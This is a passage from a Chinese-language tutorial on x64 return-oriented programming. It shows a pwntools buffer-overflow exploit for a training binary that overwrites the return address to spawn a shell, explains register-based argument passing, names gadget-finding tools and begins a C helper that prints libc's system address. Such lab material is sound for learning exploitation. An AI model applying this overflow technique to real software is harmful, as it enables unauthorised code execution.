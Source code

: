 可以发现已经成功控制PC的指针了，构造exp如下：

![Alt](img/x64_ROP5.png)
![Alt](img/x64_ROP6.png)

```python
    #!/usr/bin/python
    from pwn import *

    elf = ELF('level3')
    p = process('./level3')

    callsystem = 0x04005b6

    payload = "A"*136 + p64(callsystem)
    p.send(payload)

    p.interactive()
```

## 使用工具寻找gadgets

在x64中前六个参数依次保存在`RDI，RSI，RDX，RCX，R8和 R9`寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于`pop rdi; ret`的这种`gadget`来进行传参。如果是简单的`gadgets`，我们可以通过`objdump`来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。

[ROPEME](https://github.com/packz/ropeme)、[Ropper](https://github.com/sashs/Ropper)、[ROPgadget](https://github.com/JonathanSalwan/ROPgadget/tree/master)、[rp++](https://github.com/0vercl0k/rp)
这些工具功能上都相似。
例子：

```c++
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <dlfcn.h>

    void systemaddr()
    {
        void* handle = dlopen("libc.so.6", RTLD_LAZY);
        printf("%p\n",dlsym(handle,"system"));
        fflush(stdout);
    }

```